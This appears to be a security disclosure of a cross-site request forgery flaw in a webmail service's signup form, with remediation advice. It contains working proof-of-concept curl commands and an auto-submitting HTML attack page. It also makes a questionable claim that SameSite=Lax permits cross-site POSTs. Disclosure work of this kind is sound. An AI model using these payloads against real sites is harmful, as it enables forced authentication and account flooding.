



# Description

Cross-Site Request Forgery (CWE-352) on the TrackBox webmail signup endpoint `POST /signup`. The form carries no anti-CSRF token (only `Ufield`, `Pfield`, `CPfield`), the server performs no `Referer`/`Origin` validation, and on success it sets the session cookies (`Id`, `Username`) with **no `SameSite` attribute**. A malicious page can therefore silently create a brand-new mailbox in the victim's browser and authenticate them into it — zero-click after page load.

This is distinct from login CSRF on `/connect`: signup CSRF creates a **fresh account per victim**, so there is no attacker identity to ban and it additionally enables account-creation flooding.

# Exploitation

| Scenario | Effect |
|----------|--------|
| Mass forced creation | A page with JavaScript-randomised `Ufield` values spawns a unique mailbox per visitor → DB/storage spam. |
| Forced auth into attacker-known account | Fixed payload credentials log the **first** victim into a mailbox the attacker controls; subsequent visitors hit "username already exists" (the server checks uniqueness). This limits the scenario to a single targeted victim per username. |

# PoC

**1. The signup form has no CSRF token:**

```bash
curl -sk "https://webmail.<TARGET>/signup" | grep -iE '<form|<input|csrf|token'
# <form action="/signup" method="POST"> ... only Ufield/Pfield/CPfield, no token
```



**2. A cross-site POST creates an account and authenticates the requester:**

```bash
curl -sk -i -X POST \
  --data-urlencode "Ufield=arthurcsrftest$(date +%s)" \
  --data-urlencode "Pfield=Testpass12345!" --data-urlencode "CPfield=Testpass12345!" \
  "https://webmail.<TARGET>/signup" | grep -iE "HTTP|location|set-cookie"
# HTTP/2 302
# location: /client?username=arthurcsrftest...@tbox.traced
# set-cookie: Id=...; HttpOnly; Path=/   (no SameSite)
# set-cookie: Username=...@tbox.traced; HttpOnly; Path=/
```



**3. Standalone HTML PoC (zero-click after load):**

```html
<form action="https://webmail.<TARGET>/signup" method="POST">
  <input name="Ufield" id="u">
  <input name="Pfield" value="Testpass12345!">
  <input name="CPfield" value="Testpass12345!">
</form>
<script>
  document.getElementById('u').value = 'csrfvictim' + Date.now();
  document.forms[0].submit();
</script>
```

Note: the `SameSite` attribute is absent on the response cookies. Modern Chromium treats missing `SameSite` as `Lax`, but a cross-site top-level POST form submission is allowed under `Lax`, so the exploit works in current browsers.



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Victim believes they use their own webmail; composed/replied content leaks to the attacker-known account. |
| Integrity | Forced authentication; untraceable since each account is freshly created. |
| Availability | Account-creation flooding pollutes the user database and consumes storage. |

Overall severity: **Medium-High** — no attacker linkage, detection bypass (monitoring `/connect` misses `/signup`).

# Remediation

1. **Add a per-request anti-CSRF token** to `/signup` (and `/connect`).
2. **Validate `Origin`/`Referer`** on POST.
3. **Set `SameSite=Strict` + `Secure`** on the `Id`/`Username` cookies.
4. **Require e-mail verification before activation** (no auto-login on signup); add CAPTCHA/rate-limit to curb flooding.

# Author
Hackrapovic
